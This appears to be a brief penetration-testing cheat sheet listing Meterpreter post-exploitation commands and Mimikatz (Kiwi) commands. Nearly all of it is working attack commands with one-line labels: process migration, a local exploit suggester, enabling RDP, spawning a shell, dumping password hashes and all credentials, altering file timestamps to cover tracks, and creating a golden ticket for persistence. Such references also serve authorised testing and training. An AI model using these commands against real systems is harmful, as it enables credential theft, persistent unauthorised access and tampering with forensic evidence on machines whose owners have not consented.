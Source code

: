 ### Meterpreter
```
# System Info
sysinfo

# Get Current User
getuid

# Get Current Privileges
getprivs

# List Processes
ps

# Process Migration
migrate {PID}

# Run Exploit Suggester
run post/multi/recon/local_exploit_suggester

# Enable Windows RDP
run post/windows/manage/enable_rdp

# Shell Spwan
shell

# Retrive Stored Hashes
hashdump

# Modify Timestamps of System Files
timestomp
```

### Mimikatz (Kiwi)
```
# Load on Meterpreter
load kiwi

# Retrieve All Credentials
creds_all

# Persistence
golden_ticket_create
```
